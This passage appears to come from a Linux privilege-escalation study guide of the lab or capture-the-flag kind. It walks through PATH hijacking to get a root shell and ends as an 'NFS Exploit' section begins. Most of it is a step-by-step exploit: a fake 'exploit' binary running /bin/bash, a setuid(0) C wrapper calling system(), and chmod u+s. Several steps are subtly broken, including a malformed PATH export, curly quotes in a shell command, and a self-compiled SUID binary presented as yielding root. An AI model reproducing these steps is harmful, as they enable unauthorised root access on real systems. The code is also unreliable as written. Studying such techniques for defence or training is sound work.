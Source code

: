 Typically the PATH will look like this:

![ch2Z4zp.png](ch2Z4zp.png)

As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

Keep the binary in a folder which is listed in the $PATH, or just add it to $PATH.

```objectivec
export PATH=/tmp$PATH
```

now lets create a `exploit` binary in /tmp

```objectivec
echo “/bin/bash” > exploit
chmod +x exploit
```

Now lets create a script and name it `script.c`:

```objectivec
#include<unistd.h>
#include<stdlib.h>
void main()
{
	setuid(0);
	setgid(0);
	system("exploit");
}
```

Now compile it and run it:

```objectivec
gcc script.c -o script -w
chmod u+s script
./script
```

This should give a root shell.

NOTE: The `exploit` binary should be in the folder that is listed in the $PATH variable

# NFS Exploit

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.
